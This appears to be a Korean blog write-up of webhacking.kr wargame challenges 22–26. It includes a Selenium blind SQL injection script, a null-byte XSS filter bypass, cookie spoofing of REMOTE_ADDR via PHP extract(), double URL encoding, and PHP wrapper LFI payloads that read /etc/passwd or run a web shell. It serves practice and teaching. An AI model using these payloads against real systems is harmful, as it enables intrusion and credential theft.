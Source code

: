 ```yaml
---
title: "Security: webhacking.kr 22-26"
last_modified_at: 2020-07-26T20:20:02-05:00
categories:
  - Security
tags:
  - webhacking.kr
  - 웹해킹
toc: true 
toc_label: "Table of Contents"
toc_icon: "cog"
toc_sticky: true 
author_profile: true 
read_time: false 
---
```


---
### 22 문제풀이 (Blind SQL Injection, MD5)
---

22번 문제에 들어와보니 로그인 화면이 나타났다 SQL Injection 으로 풀수있을 것 같다.
{: .notice}

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제22/22-1.JPG" alt="">
  <figcaption> </figcaption>
</figure>

id와 pw에 test를 입력하고 join을 해봤다.
{: .notice}

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제22/22-2.JPG" alt="">
  <figcaption> </figcaption>
</figure>

그리고 나서 로그인 해보니 패스워드 해쉬 값이 나왔다.
{: .notice}

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제22/22-3.JPG" alt="">
  <figcaption> </figcaption>
</figure>

우선은 아래에 id가 admin이라는 힌트가 나와으므로 admin' and 1#를 입력하여 pw를 true 로 만들어 보았다.
{: .notice}

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제22/22-4.JPG" alt="">
  <figcaption> </figcaption>
</figure>

그랬더니 Wrong password! 라는 메세지가 나타났다
{: .notice}

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제22/22-5.JPG" alt="">
  <figcaption> </figcaption>
</figure>

그래서 admin과 아무 비밀번호를 입력해보니 Login Fail! 이라는 메세지를 볼 수 있었다. SQL Blind Injection에 이용하면 될 것 같다.
{: .notice}

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제22/22-6.JPG" alt="">
  <figcaption> </figcaption>
</figure>

우선 html 소스코드를 열어 필드명들을 확인하고 이를 기반으로 소스코드를 작성하였다.
{: .notice}

```php
<html>
<head>
<title>Challenge 22</title>
<style type="text/css">
body { background:black; color:white; font-size:10pt; }
table { background:black; color:white; font-size:9pt; }
input { background:silver; color:black; font-size:9pt; }
a { color:lightgreen; }
</style>
</head>
<body>

<form method=post action=index.php>
<table border=1 cellpadding=5 cellspacing=0>
<tr><td>username</td><td><input name=uuid type=text></td></tr>
<tr><td>password</td><td><input name=pw type=password></td></tr>
<tr align=center><td><input type=submit value='login'></td><td><input type=button value='join' onclick=location.href='?mode=join' style=width:100;></td></tr>
</form>

<p>

</table><br><br>
<p style=background:white;color:black;width:400;>
mission : login as admin<br>
Column Name : id, pw
</p>

</body>
</html>
```

true 이면 Wrong password, false면 Login Fail 이 나타나므로 이를 이용하여 pw 길이부터 구했다.
{: .notice}

```python
from selenium import webdriver
from selenium.webdriver.remote.webelement import WebElement
from selenium.webdriver.common.keys import Keys
from selenium.webdriver import ActionChains
import re

#연결

url = "https://webhacking.kr/challenge/bonus-2/"
chromedriver = 'C:/Users/authe/AppData/Local/Programs/Python/Python38/Scripts/chromedriver.exe'
driver = webdriver.Chrome(chromedriver)

driver.get(url)
cookie = {'name':'PHPSESSID', 'value':'6i88jov341jics4n6c342ho6fq'}
driver.add_cookie(cookie)
driver.get(url)

for n in range(1,50):
    driver.get(url)
    print(n)
    #id 입력
    name = driver.find_element_by_name('uuid')
    name.send_keys("admin' and length(pw)={}#".format(n))
    #pw 입력
    pw = driver.find_element_by_name('pw')
    pw.send_keys("1")

    submitButton = driver.find_element_by_xpath("/html/body/form/table/tbody/tr[3]/td[1]/input")
    submitButton.click()
    if ("Login Fail!" in driver.find_element_by_xpath("/html/body").text):
        print("found!")
        continue
    else: break
```

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제22/22-7.JPG" alt="">
  <figcaption> </figcaption>
</figure>

pw의 길이는 32로 나왔고 본격적으로 pw를 구해보았다.
{: .notice}

```python
from selenium import webdriver
from selenium.webdriver.remote.webelement import WebElement
from selenium.webdriver.common.keys import Keys
from selenium.webdriver import ActionChains
import re

#연결

url = "https://webhacking.kr/challenge/bonus-2/"
chromedriver = 'C:/Users/authe/AppData/Local/Programs/Python/Python38/Scripts/chromedriver.exe'
driver = webdriver.Chrome(chromedriver)

driver.get(url)
cookie = {'name':'PHPSESSID', 'value':'6i88jov341jics4n6c342ho6fq'}
driver.add_cookie(cookie)
driver.get(url)

p_string = ""
for i in range(1,33):
    driver.get(url)
    print(i)
    for j in range(33,128):
        name = driver.find_element_by_name('uuid')
        name.send_keys("admin' and ord(substr(pw,{},1))={}#".format(i,j))       
        pw = driver.find_element_by_name('pw')
        pw.send_keys("1")     
        submitButton = driver.find_element_by_xpath("/html/body/form/table/tbody/tr[3]/td[1]/input")
        submitButton.click()
        if ("Login Fail!" in driver.find_element_by_xpath("/html/body").text):
            print("{},{}".format(i,j))
        else:
            p_string+=chr(j)
            print(p_string)
            driver.get(url)
print(p_string)
```

패스워드는 md5 값으로 보인다. decryption을 시도해보았다.
{: .notice}

```
6c9ca386a903921d7fa230ffa0ffc153
```

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제22/22-8.JPG" alt="">
  <figcaption> </figcaption>
</figure>

wowapple 이라니? 답이 이게 맞는걸까? 로그인을 시도해보니 실패했다! 아까 test 계정에서 얻었던 hash 값을 살펴보았다.
{: .notice}

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제22/22-9.JPG" alt="">
  <figcaption> </figcaption>
</figure>

test 계정의 패스워드는 test로 생성했었는데 testapple의 해쉬값이 나타난것을 보아하니 salt 값으로 apple이 붙는듯 하다.
{: .notice}

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제22/22-10.JPG" alt="">
  <figcaption> </figcaption>
</figure>

따라서 admin의 pw는 apple을 뺀 wow 이다. 이 정보로 로그인을 했더니 성공했다.
{: .notice}

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제22/22-11.JPG" alt="">
  <figcaption> </figcaption>
</figure>

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제22/22-12.JPG" alt="">
  <figcaption> </figcaption>
</figure>

---
### 23 문제풀이 (script injection)
---

23번 문제는 다음과 같다 아래에 나타난 스크립트 문장을 삽입하면 되는듯 하다.
{: .notice}

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제23/23-1.JPG" alt="">
  <figcaption> </figcaption>
</figure>

하지만 실제 삽입해보니 필터링 되어 몇가지 키워드는 입력이 되지 않았다. <script>, True, False, or, and, select, from 등등
{: .notice}

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제23/23-2.JPG" alt="">
  <figcaption> </figcaption>
</figure>

임의의 값을 넣을 경우 code= 과 함께 전송된다
{: .notice}

```
https://webhacking.kr/challenge/bonus-3/index.php?code=123
```

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제23/23-3.JPG" alt="">
  <figcaption> </figcaption>
</figure>

```php
<html>
<head>
<title>Challenge 23</title>
<style type="text/css">
body { background:black; color:white; font-size:10pt; }
input { background:silver; color:black; font-size:9pt; }
</style>
</head>
<body>
123<form method=get action=index.php>
<table border=0 cellpadding=10>
<tr><td><input name=code></td><td><input type=submit></td></tr>
</table>
</form><br><br>
Your mission is to inject &lt;script>alert(1);&lt;/script>
<br><br>
</body>
</html>
```

alert(1);을 속여서 넣는 방법밖에 없는것같다. 우선 null을 뜻하는 %00을 넣어서 필터를 피해보자.
{: .notice}

```
<s%00c%00r%00i%00p%00t>%00a%00l%00e%00r%00t%00(1)%00;%00</s%00c%00r%00i%00p%00t>
```

%00값을 너무 많이 끼워 넣으면 명령어로 인식을 하지 못해서 적당히 빼면서 url에 입력한 결과 
{: .notice}

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제23/23-4.JPG" alt="">
  <figcaption> </figcaption>
</figure>

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제23/23-5.JPG" alt="">
  <figcaption> </figcaption>
</figure>

---
### 24 문제풀이 (쿠키 변조)
---

24번 문제를 들어와보니 http 패킷 정보 중 일부가 나타났다.
{: .notice}

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제24/24-1.JPG" alt="">
  <figcaption> </figcaption>
</figure>

```php
<?php
  include "../../config.php";
  if($_GET['view_source']) view_source();
?><html>
<head>
<title>Challenge 24</title>
</head>
<body>
<p>
<?php
  extract($_SERVER);
  extract($_COOKIE);
  $ip = $REMOTE_ADDR;
  $agent = $HTTP_USER_AGENT;
  if($REMOTE_ADDR){
    $ip = htmlspecialchars($REMOTE_ADDR);
    $ip = str_replace("..",".",$ip);
    $ip = str_replace("12","",$ip);
    $ip = str_replace("7.","",$ip);
    $ip = str_replace("0.","",$ip);
  }
  if($HTTP_USER_AGENT){
    $agent=htmlspecialchars($HTTP_USER_AGENT);
  }
  echo "<table border=1><tr><td>client ip</td><td>{$ip}</td></tr><tr><td>agent</td><td>{$agent}</td></tr></table>";
  if($ip=="127.0.0.1"){
    solve(24);
    exit();
  }
  else{
    echo "<hr><center>Wrong IP!</center>";
  }
?><hr>
<a href=?view_source=1>view-source</a>
</body>
</html>
```

위에 코드를 해석해보니 $_SERVER와 $_COOKIE  값을 extract() 함수를 사용하여 뽑아낸다. 그리고 ip에 저장하는데 REMOTE_ADDR의 일부를 바꿔서 저장한다.
..은 .으로 12, 7.,0.은 null 값으로 바꾸도록 되어있다. 이 부분을 피해서 127.0.0.1을 입력해야 문제가 해결될듯 하다.
{: .notice}

간단하다 REMOTE_ADDR 쿠키를 추가하고 값으로 112277...00...00...1을 넘기면 최종적으로 127.0.0.1만 남는다.
{: .notice}

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제24/24-2.JPG" alt="">
  <figcaption> </figcaption>
</figure>

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제24/24-3.JPG" alt="">
  <figcaption> </figcaption>
</figure>

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제24/24-4.JPG" alt="">
  <figcaption> </figcaption>
</figure>

---
### 25 문제풀이 (PHP Wrapper)
---

---
#### PHP Wrapper, LFI
---

wrapper를 이용하여 몇가지 프로토콜이 지원된다. PHP의 경우 입출력 , 표준입출력 , 오류 파일 기술어 등에 엑세스 할수 있는 다양한 I/O 스트림을 제공한다.
{: .notice}

```
file:// — Accessing local filesystem
http:// — Accessing HTTP(s) URLs
ftp:// — Accessing FTP(s) URLs
php:// — Accessing various I/O streams
```

LFI(Local File Inclusion)은 공격(포함)할 파일이 공격대상 서버에 있다는 뜻이다. lfi 취약점은 php로 만들어진 웹 사이트에서 include, require, require_once, file_get_contents, fopen 등 의 함수를 사용했을 때 발생한다.
예로, include()함수는 받아온 입력값을 그대로 경로에 추가하기 때문에 var/www/html/index.php나 etc/passwd에 접근할 수 있다.
{: .notice}

```
1. expect://
expect wrapper는 우리에게 system command를 실행시켜 줍니다.
예를 들어,
expect wrapper 가 필터링 당하지 않았다면 
www.[우리가 공격할 웹 사이트의 주소].index.php?page=expect://ls
와 같은 방식으로 활용할 수 있습니다.
위의 예시에서는 system command로 ls를 보냈기 때문에 우리에게 디렉토리들을 보여줄 것입니다.

2. php://filter
php://filer wrapper는 다양한 I/O스트림을 다루는데 사용하는 wrapper입니다.
이 wrapper를 사용할 때 우리는 encode/decode 옵션을 사용하여 서버 안에 존재하는 문서들을 열람 할 수 있습니다.
예를 들어, 
www.[우리가 공격할 웹 사이트의 주소].index.php?page=php://filter/convert.base64-encode/resource=/etc/passwd
처럼 활용할 수 있습니다.
위의 방식으로 공격을 진행하게 되면 우리는 base64 방식으로 인코딩 된 etc/passwd의 값을 얻을 수 있을 것 입니다.

3. zip://
zip:// wrapper는 zip파일의 압축을 풀고 압축을 푼 파일안에 있는 코드를 실행시켜 주는 기능을 합니다.
예를 들어, 
www.[우리가 공격할 웹 사이트의 주소].index.php?page=zip://file.zip#shell.php
와 같은 방식으로 활용하여 web shell을 실행시키는 등 다양한 기능을 수행할 수 있습니다.
```
출처: https://opentutorials.org/module/4291/26819
{: .notice}

---
#### 문제풀이
---
25번 문제에 들어가보니 리눅스에서 보던 화면이 보인다.
{: .notice}

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제25/25-1.JPG" alt="">
  <figcaption> </figcaption>
</figure>

```php
<html>
<head>
<meta http-equiv=Content-Type content="text/html; charset=euc-kr">
<title>Challenge 25</title>
<style type="text/css">
body { background:black; color:white; font-size:10pt; }
textarea { background:silver; color:black; fnot-size:9pt; }
</style>
</head>
<body>
<pre>total 20
drwxr-xr-x 2 root root 4096 Aug 24  2019 .
drwxr-xr-x 3 root root 4096 Aug 24  2019 ..
-rw-r--r-- 1 root root   82 Aug 24  2019 flag.php
-rw-r--r-- 1 root root   31 Aug 24  2019 hello.php
-rw-r--r-- 1 root root  605 Aug 24  2019 index.php
</pre><hr><textarea rows=10 cols=100>hello world</textarea></body>
</html>
```
소스코드에 특별한 점은 없다. url을 살펴보면 http://webhacking.kr:10001/?file=hello 라고 입력되어있다. 
확장자명 없이 파일이름만 입력해야 파일에 접근 할 수 있었다. 그래서 각각의 파일명을 입력해보니
 flag 입력시 'FLAG is in the code' 라는 문자열을 볼 수 있다.
{: .notice}

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제25/25-2.JPG" alt="">
  <figcaption> </figcaption>
</figure>


?file=php://filter/convert.base64-encode/resource=flag 를 사용하여 더 자세히 살펴보자
{: .notice}

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제25/25-3.JPG" alt="">
  <figcaption> </figcaption>
</figure>

```
PD9waHAKICBlY2hvICJGTEFHIGlzIGluIHRoZSBjb2RlIjsKICAkZmxhZyA9ICJGTEFHe3RoaXNfaXNfeW91cl9maXJzdF9mbGFnfSI7Cj8+Cg==
```

이전 문제에서도 봤던 형식이다 Base64 decode를 해보자
{: .notice}

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제25/25-4.JPG" alt="">
  <figcaption> </figcaption>
</figure>

```
<?php
  echo "FLAG is in the code";
  $flag = "FLAG{this_is_your_first_flag}";
?>
```

flag 값을 얻었다. 얻은 flag 값을 어떻게 해야할지 모르겠어서 결국 헤메다 찾아보았다. Auth 탭에 입력하였고 문제가 풀렸다.
{: .notice}

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제25/25-5.JPG" alt="">
  <figcaption> </figcaption>
</figure>

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제25/25-6.JPG" alt="">
  <figcaption> </figcaption>
</figure>

---
### 26 문제풀이 (URL encode)
---

26번 문제를 살펴보았다. 화면에는 view-source 만 보인다. 클릭하여 코드를 살펴보자.
{: .notice}

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제26/26-1.JPG" alt="">
  <figcaption> </figcaption>
</figure>

```php
<?php
  include "../../config.php";
  if($_GET['view_source']) view_source();
?><html>
<head>
<title>Challenge 26</title>
<style type="text/css">
body { background:black; color:white; font-size:10pt; }    
a { color:lightgreen; }
</style>
</head>
<body>
<?php
  if(preg_match("/admin/",$_GET['id'])) { echo"no!"; exit(); }
  $_GET['id'] = urldecode($_GET['id']);
  if($_GET['id'] == "admin"){
    solve(26);
  }
?>
<br><br>
<a href=?view_source=1>view-source</a>
</body>
</html>
```

소스코드를 살펴보니 id 값을 받는다. admin을 입력하면 문제가 풀린다. 
하지만 그전에 정규표현식을 통해서 admin을 입력할 경우 no!를 출력하고 종료하도록 하였다.
{: .notice}

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제26/26-2.JPG" alt="">
  <figcaption> </figcaption>
</figure>

우선 urldecode를 하는것을 보아하니 encode한 값을 넣어주면 될것같다.
admin을 encode 하여 %61%64%6D%69%6E로 바꾸어서 입력해보았다. no!라고 나타나는것을 보니 admin으로 다시 변환되는 모양이다.
그래서 %61%64%6D%69%6E 을 한번더 인코딩 하여 입력해보았다. %2561%2564%256D%2569%256E
{: .notice}

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제26/26-3.JPG" alt="">
  <figcaption> </figcaption>
</figure>

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제26/26-4.JPG" alt="">
  <figcaption> </figcaption>
</figure>

문제 해결!
{: .notice}













